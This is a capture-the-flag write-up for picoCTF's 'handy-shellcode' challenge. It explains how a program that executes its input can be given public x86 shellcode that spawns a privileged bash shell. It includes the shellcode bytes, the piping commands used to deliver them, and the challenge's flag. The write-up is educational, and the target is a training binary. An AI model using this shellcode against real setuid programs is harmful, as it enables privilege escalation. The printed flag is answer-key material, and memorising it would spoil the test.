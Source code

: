 # handy-shellcode
This [program](https://github.com/Xaplomian/DissimuloPicoCTFWriteUps/raw/master/Binary%20Exploitation/handy-shellcode/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](vuln.c). (50 points)

# Hint
You might be able to find some good shellcode online.

# Details
Flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`
Completed: **During challenge**

# Solution
Shellcode is a series of opcodes that we can write into the stdin of a program, which we usually have to execute ourselves. However, the challenge does this for us in this line of code:
```((void (*)())buf)();```
This means that the program will treat that address in memory as a series of opcodes and run them.
Using the shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-606.php) `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`. This shellcode will run a shell for us as the root user, since we are running a setuid binary, with permissions to also view the files in the directory, thus we can read flag.txt. Write this shellcode to a file in the home directory, and `cat` out the contents of that file, with a tack before the pipe to keep the stdin pipe open.
```bash
python3 -c print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80') > ~/shellcode.txt
cat ~/shellcode.txt - | ./vuln
ls
cat flag.txt
```

